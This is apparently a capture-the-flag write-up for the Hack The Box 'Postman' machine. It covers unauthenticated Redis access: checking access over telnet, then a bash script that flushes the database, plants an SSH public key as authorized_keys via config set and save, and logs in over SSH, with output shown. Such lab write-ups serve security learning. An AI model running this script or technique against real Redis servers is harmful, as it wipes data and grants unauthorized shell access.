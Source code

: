 ## Vulnerability

First lets see if this `redis` server allows unauthenticated access.
```bash
root@kali:~# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "Hey no AUTH required!"
$21
Hey no AUTH required!
quit
+OK
Connection closed by foreign host.
```

It does, so lets use the following method to gain access. [Redis Vulnerability](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

1. Create an `ssh` key pair.
2. Write two empty lines at the beginning and end of the public key.
3. Copy our public key to the `redis` server.
4. Write our public keys to `authorized_keys`.
5. `SSH` into the box using our private key.

## Exploit

I combined the above mentioned steps into a small script. This was necessary because I was connected to the free server 
and everyone was trying to write their own public keys at the same time.

```bash
echo "[+]Flushall"
redis-cli -h 10.10.10.160 flushall
echo "[+]Copying ssh keys"
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
echo "[+]saving to authorized files"
echo -e 'config set dbfilename "authorized_keys"\nsave' | redis-cli -h 10.10.10.160
#echo 'save' | redis-cli 10.10.10.160
echo "[+]SSHing..."
ssh -i id_rsa redis@10.10.10.160
```
Lets copy the public key with newlines to `foo.txt` and run the exploit
```
root@kali:~/Desktop/htb/postman/redis# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
root@kali:~/Desktop/htb/postman/redis# ./redis_exp.sh 
[+]Flushall
OK
[+]Copying ssh
OK
[+]saving to authorized files
OK
OK
[+]SSHing...
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
```